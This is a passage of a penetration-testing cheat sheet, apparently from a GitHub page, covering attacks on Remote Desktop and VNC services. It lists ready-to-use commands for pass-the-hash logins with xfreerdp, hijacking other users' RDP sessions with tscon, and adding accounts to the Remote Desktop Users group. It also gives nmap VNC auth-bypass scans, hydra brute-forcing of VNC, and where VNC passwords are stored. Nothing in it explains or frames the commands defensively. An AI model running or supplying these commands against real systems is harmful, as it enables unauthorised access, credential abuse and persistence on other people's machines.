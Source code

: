 ```
rdesktop -u <USERNAME> <IP>
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD> <IP>

xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>
xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>
```

### Session stealing

#### Get openned sessions

```
query user
```

#### Access to the selected 

```
tscon <ID> /dest:<SESSIONNAME>
```

### Adding user to RDP group (Windows) 

```
net localgroup "Remote Desktop Users" <USER> /add
```

------

## VNC - 5800 - 58001 - 5900 - 5901

### Scans

``` 
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -v -p <PORT> <IP>
```

### Brute force

```
hydra -L <USERS_LIST> –P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV
```

### Connect

```
vncviewer <IP>:<PORT>
```

### Found VNC password

#### Linux

```
Default password is stored in: ~/.vnc/passwd
```

